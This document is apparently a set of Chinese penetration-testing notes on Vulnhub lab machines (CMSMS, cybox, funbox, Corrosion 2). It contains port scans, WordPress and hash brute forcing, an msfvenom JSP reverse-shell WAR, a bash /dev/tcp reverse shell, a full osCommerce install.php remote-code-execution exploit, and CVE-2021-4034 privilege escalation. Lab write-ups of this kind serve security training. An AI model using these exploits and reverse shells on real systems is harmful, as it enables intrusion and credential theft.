# MY CMSMS: 1

> * 信息汇总
>   *  本机ip
>     * 10.0.2.11
>   *  靶机ip
>     * 10.0.2.10

信息收集：

```shell
nmap -p- -Pn -vv 10.0.2.10

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 64
80/tcp    open  http    syn-ack ttl 64
3306/tcp  open  mysql   syn-ack ttl 64
33060/tcp open  mysqlx  syn-ack ttl 64
```

```shell
nmap -p22,80,3306,33060 -A -vv 10.0.2.10

PORT      STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDO2NZpyWvmlp9n32GhuHX86ickyFyeoh/ESBEKFDQ2bKtYB5ql158CM+zuXjQsIdmLUFtpbmMjl4nArC3d6Z/IJYgHIhA1wM6NA9ErQsYVdQEJS6Bb6rE1PLPCsF5wNWvTW9PMdQtPuFj4rJM+FWZffzUZGQoHz/YMf5IJxdz7Xf1i/G7BvANctULMC7rKqpXvpjxTcLPfxxuO7ePcsMPco0T8ZDw93k4K65upASBqbdzCS9axTf5JXll3nWGcKO/JfWk3dvDUpRWdcUpXoEf2+afEzW5deUFY6O1dDaGmeWEjTvTG1Bo2qUTLr43T8w234I7qqgiMmnXjP+TVgOPP
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLHPnZ54xfYtmNSBROqyDaS91lnDbroaBWi+KHR0cRbWxYSzW0G5IxmT19UjfBJOiG7lanOJw5dtC1pmeU2/ywI=
|   256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGAbYacAnCI/PmYwQeSFp6RcW3ZCCqIAzSIiec9ck725
-----------------------------------------------------------------------------------
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-generator: CMS Made Simple - Copyright (C) 2004-2020. All rights reserved.
|_http-title: Home - My CMS
|_http-favicon: Unknown favicon MD5: 551E34ACF2930BF083670FA203420993
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
--------------------------------------------------------------------------------------
3306/tcp  open  mysql   syn-ack ttl 64 MySQL 8.0.19
| ssl-cert: Subject: commonName=MySQL_Server_8.0.19_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_8.0.19_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-03-25T09:30:14
| Not valid after:  2030-03-23T09:30:14
| MD5:   ab68 52c7 9ef3 3568 e534 a8f6 0670 3571
| SHA-1: 62d2 bb7c d123 e6d4 7231 773c 0916 b2c8 05dd 3f48
---------------------------------------------------------------------------------------
33060/tcp open  mysqlx? syn-ack ttl 64
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

```

http://10.0.2.10/

# cengbox

```shell
```

# cybox

```shell
21/tcp  open  ftp      syn-ack ttl 64 vsftpd 3.0.3
25/tcp  open  smtp     syn-ack ttl 64 Postfix smtpd
|_smtp-commands: cybox.Home, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=cybox
| Issuer: commonName=cybox
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-11-10T23:31:36
| Not valid after:  2030-11-08T23:31:36
| MD5:   597f 372b e5a8 d37c 0b02 df9b b844 c7fc
| SHA-1: baab 1a0e b21f b0d1 dfa3 344d cfe6 4596 eeeb 2b53

80/tcp  open  http     syn-ack ttl 64 Apache httpd 2.2.17 ((Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2 PHP/5.2.15)
|_http-title: CYBOX
|_http-favicon: Unknown favicon MD5: 8B6163E0FDACC85E807F80A78F59C03C
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.17 (Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2 PHP/5.2.15
110/tcp open  pop3     syn-ack ttl 64 Courier pop3d
|_pop3-capabilities: USER LOGIN-DELAY(10) PIPELINING IMPLEMENTATION(Courier Mail Server) UIDL TOP
143/tcp open  imap     syn-ack ttl 64 Courier Imapd (released 2011)
|_imap-capabilities: completed ACL CAPABILITY NAMESPACE ACL2=UNIONA0001 QUOTA THREAD=ORDEREDSUBJECT OK IDLE CHILDREN UIDPLUS SORT THREAD=REFERENCES IMAP4rev1
443/tcp open  ssl/http syn-ack ttl 64 Apache httpd 2.2.17 ((Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2 PHP/5.2.15)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
|_http-title: CYBOX
|_http-server-header: Apache/2.2.17 (Unix) mod_ssl/2.2.17 OpenSSL/0.9.8o DAV/2 PHP/5.2.15
|_ssl-date: 2022-08-04T12:01:25+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=cybox.company/organizationName=Cybox Company/stateOrProvinceName=New York/countryName=US/organizationalUnitName=Cybox/localityName=New York City/emailAddress=admin@cybox.company
| Issuer: commonName=cybox.company/organizationName=Cybox Company/stateOrProvinceName=New York/countryName=US/organizationalUnitName=Cybox/localityName=New York City/emailAddress=admin@cybox.company
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-11-14T15:06:32
| Not valid after:  2021-11-14T15:06:32
| MD5:   1308 6ffe 0aa0 d469 6464 2d4d dbab dd48
| SHA-1: 7a0a d33a 9fc1 b469 295b abc6 8157 bf7b 0788 1a93
```


# funbox 1

## **本机ip：**

~~~
10.0.2.11 
~~~
## **靶机ip：**

~~~
10.0.2.15
~~~

## **信息收集：**

端口

> 21/tcp    open  ftp     syn-ack ttl 64
> 22/tcp    open  ssh     syn-ack ttl 64
> 80/tcp    open  http    syn-ack ttl 64
> 33060/tcp open  mysqlx  syn-ack ttl 64

` wpscan --url http://funbox.fritz.box/ --enumerate u --api-token  xxxxxxxxxxxxxxxxxxxxx` 



`wpscan --url http://funbox.fritz.box/ -P /usr/share/wordlists/rockyou.txt --max-threads 100`










## **漏洞利用**：

~~~
python -c 'import pty;pty.spawn("/bin/bash");'
~~~





## **权限提升：**

>  ssh joe@10.0.2.15  
>
> password : 12345

`python -c 'import os; os.system("/bin/sh")'` 绕过 rbash

**CVE-2021-4034** 脚本提权

# Corrosion: 2

## **本机ip**

~~~
192.168.59.10
~~~

## **靶机ip**

~~~
192.168.59.19
~~~

## **信息收集：**

> Discovered open port 22/tcp on 192.168.59.19
> Discovered open port 8080/tcp on 192.168.59.19
> Discovered open port 80/tcp on 192.168.59.19



**backup.zip需要密码**



**破解密码：**

~~~
zip2john backup.zip > hash 
john hash --wordlist=/usr/share/wordlists/rockyou.txt
密码为：@administrator_hi5
~~~



~~~
cat tomcat-users.xml   //  查看tomcat管理密码

<role rolename="manager-gui"/>
<user username="manager" password="melehifokivai" roles="manager-gui"/>

<role rolename="admin-gui"/>
<user username="admin" password="melehifokivai" roles="admin-gui, manager-gui"/>
</tomcat-users>

~~~

**登录tomcat后台并部署war木马项目，反弹shell**



~~~
#制作反弹shell

msfvenom -p java/jsp_shell_reverse_tcp  LPORT=6666 LHOST=192.168.59.10 -f war > /root/baji/Vulnhub/Corrosion_2/rever.war


~~~




## **漏洞利用：**

~~~
python3 -c 'import pty;pty.spawn("/bin/bash");'
~~~

**两个用户**



**尝试使用ssh登录，密码为tomcat的密码**

jaye用户登录成功

jaye没有sudo权限

~~~
find  / -perm -u=s -type f 2>/dev/null
~~~








~~~
echo  '$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/' > randyhash
~~~

~~~
john randyhash --wordlist=/usr/share/wordlists/rockyou.txt 
~~~


## **权限提升：**

**上传linpeas.sh脚本**



https://github.com/berdav/CVE-2021-4034

直接脚本提权成功


CVE-2022-0847脚本执行失败

>  /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found 

# funbox 10

## **本机ip**

~~~
10.0.2.4
~~~

## **靶机ip**

~~~
10.0.2.16

~~~

## **信息收集**

> 22/tcp  open  ssh     syn-ack ttl 64
> 25/tcp  open  smtp    syn-ack ttl 64
> 80/tcp  open  http    syn-ack ttl 64
> 110/tcp open  pop3    syn-ack ttl 64
> 143/tcp open  imap    syn-ack ttl 64






**搜索cms漏洞**

`searchsploit osCommerce`




## **漏洞利用**

~~~
 searchsploit -m php/webapps/44374.py
~~~

查看exp内容：

~~~python
# Exploit Title: osCommerce 2.3.4.1 Remote Code Execution
# Date: 29.0.3.2018
# Exploit Author: Simon Scannell - https://scannell-infosec.net <contact@scannell-infosec.net>
# Version: 2.3.4.1, 2.3.4 - Other versions have not been tested but are likely to be vulnerable
# Tested on: Linux, Windows

# If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible
# for an unauthenticated attacker to reinstall the page. The installation of osCommerce does not check if the page
# is already installed and does not attempt to do any authentication. It is possible for an attacker to directly
# execute the "install_4.php" script, which will create the config file for the installation. It is possible to inject
# PHP code into the config file and then simply executing the code by opening it.


import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://10.0.2.16/catalog/"
target_url = "http://10.0.2.16/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += 'system("ls");'    # this is where you enter you PHP payload
payload += '/*'

data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")

~~~





>   define('DB_SERVER_USERNAME', 'jack');
>   define('DB_SERVER_PASSWORD', 'yellow');

> joe:x:1000:1000:joe,,,:/home/joe:/bin/bash
>
>  jack:x:1001:1001:,,,:/home/jack:/bin/bash
>
>  chuck:x:1002:1002:,,,:/home/chuck:/bin/bash 
>
> susan:x:1003:1003:,,,:/home/susan:/bin/bash 

**反弹shell**

`bash -c '/bin/bash -i >& /dev/tcp/10.0.2.4/9090 0>&1'`


## **权限提升**

**方法一**

>  **CVE-2021-4034脚本可以直接提权成功**

**方法二**


pspy程序扫描出 一个异常文件



> base64:
>
> -u root -p rfvbgt!!

知道账号密码 ，直接su 提权成功


